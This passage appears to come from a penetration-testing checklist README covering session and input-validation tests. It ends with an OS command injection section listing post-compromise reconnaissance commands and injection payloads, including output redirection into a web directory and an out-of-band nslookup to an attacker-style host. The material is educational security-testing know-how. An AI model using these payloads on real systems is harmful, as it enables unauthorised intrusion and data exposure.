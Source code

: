 6.6 Testing for logout functionality

6.7 Test Session Timeout

6.8 Testing for Session puzzling (also known as Session Variable Overloading)


## 7. Input validation Testing

7.1 [**Testing for Reflected Cross Site Scripting**](https://github.com/NayanDZ/XSS)

7.2 [**Testing for Stored Cross Site Scripting**](https://github.com/NayanDZ/XSS)

7.3 Testing for HTTP Verb Tampering

7.4 Testing for HTTP Parameter pollution

7.5 [**Testing for SQL Injection**](https://github.com/NayanDZ/SQL/blob/main/README.md)

7.6 Oracle Testing

7.7 MySQL Testing

7.8 SQL Server Testing

7.9 Testing PostgreSQL

7.10 MS Access Testing

7.11 Testing for NoSQL injection

7.12 Testing for LDAP Injection

7.13 Testing for ORM Injection

7.14 Testing for XML Injection

7.15 Testing for SSI Injection

7.16 Testing for XPath Injection

7.17 IMAP/SMTP Injection

7.18 Testing for Code Injection

7.19 Testing for Local File Inclusion

7.20 Testing for Remote File Inclusion

**7.21 Testing for OS Command Injection**
OS command injection (a.k. shell injection) is vulnerability that allows an attacker to execute arbitrary OS commands on the server that is running an application, and typically fully compromise the application and all its data.
  
When you have identified an OS command injection vulnerability execute some initial commands to obtain information about the system that you have compromised.
  Commands:
```
Purpose of command        Linux         Windows
Name of current user      whoami        whoami         ---> i.e `&whoami` or `|whoami`
Operating system          uname -a      ver
Network configuration     ifconfig      ipconfig /all
Network connections       netstat -an   netstat -an
Running processes         ps -ef        tasklist 
```
> Detecting blind OS command injection using time delays: `& ping -c 10 127.0.0.1 &`
> Exploiting blind OS command injection by redirecting output: `& whoami > /var/www/static/whoami.txt &`
> Exploiting blind OS command injection using out-of-band (OAST) techniques: `& nslookup name.webattacker.com &`
 
